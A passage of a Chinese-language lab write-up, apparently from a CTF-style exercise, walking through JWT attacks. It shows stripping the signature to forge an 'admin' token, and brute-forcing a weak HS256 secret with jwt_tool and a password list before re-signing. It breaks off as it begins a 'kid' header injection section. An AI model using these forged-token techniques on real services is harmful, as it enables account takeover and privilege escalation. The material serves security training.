 登录账户得到原始 JWT。

```bash
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.E12cFJy9NlK9_K6cl3VLqcWgqk8mrEv_GVGbfleMoIyShQht3gYoCwSSPeqvwbNNBkVhevrsaCAkSsCx2WcX2rNz3o43Yy9VINCqgwVpSUdqOq9b9bUmqtX-AJjbTj8csFlpOlzJiC9MP4Pnojtl5kSlSJSvM_oaw7EbuasZQOigCb_4mxlJlX-PlkZD9e8yDdu8KFhF59X2MsigoXacsucuBoP0XCEetDfpsceqGblpkRytXSCWQIpPfbVtbK_Xxxvkl-PGdF0exc-tr_b17HzunCLcQ2OI1N0vCKHiLs-9QcrG8Wf3ns1b9SwpSe5feHbMzcYGGZCSufyE81K_eQ 
```

后尝试把签名删除发现没有报错，账户用户名没变化。

```bash
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.
```

直接把用户名改成 admin 成功切换为 admin 账户并不验证签名。

```bash
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ.
```

使用原始 JWT 将用户切换再次确定不检测签名。

```bash
eyJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ.E12cFJy9NlK9_K6cl3VLqcWgqk8mrEv_GVGbfleMoIyShQht3gYoCwSSPeqvwbNNBkVhevrsaCAkSsCx2WcX2rNz3o43Yy9VINCqgwVpSUdqOq9b9bUmqtX-AJjbTj8csFlpOlzJiC9MP4Pnojtl5kSlSJSvM_oaw7EbuasZQOigCb_4mxlJlX-PlkZD9e8yDdu8KFhF59X2MsigoXacsucuBoP0XCEetDfpsceqGblpkRytXSCWQIpPfbVtbK_Xxxvkl-PGdF0exc-tr_b17HzunCLcQ2OI1N0vCKHiLs-9QcrG8Wf3ns1b9SwpSe5feHbMzcYGGZCSufyE81K_eQ
```

#### Weak Signature \[Medium\]

登录得到原始 JWT

```bash
eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.zd4XZLps44J5EHAxVFUGh8zgAHKPvyb8PALLAry2j8I
```

确认使用 HS256，尝试爆破密钥来改签 `python jwt_tool.py eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.zd4XZLps44J5EHAxVFUGh8zgAHKPvyb8PALLAry2j8I -C -d worst-passwords-2017-top100-slashdata.txt`，最终得到密钥 `iloveyou`。在工具选择上也可以看看 c-jwt-cracker

可以用 [https://jwt.io/#debugger-io](https://jwt.io/#debugger-io) 输入 `eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ.` 填入密钥，或者运行 `python3 jwt_tool.py eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ. -S hs256 -p "iloveyou"` 得到最终签名

```bash
eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4ifQ._gDs9V-6by-T2sF5C_VXQn7WPOZ_YkAfg0nx-pzLMQk
```

#### Vulnerable Kid \[Medium Hard\]

登录得到 JWT。

```bash
eyJraWQiOiJyc2FfcHJpdmF0ZSIsImFsZyI6IkhTMjU2In0.eyJuYW1lIjoiZ2JiIn0.D9HR7CBMAqMyT3h68JFjdic_y26DIX-C4piUnAwWvpk
```

Header 中有 `"kid": "rsa_private"` ，JWT 中出现多个密钥，[kid（key ID）](https://datatracker.ietf.org/doc/html/rfc7515#section-4.1.4)表示使用哪个密钥来验证签名。通过指定 Server 中已存在的文件路径和内容改签。
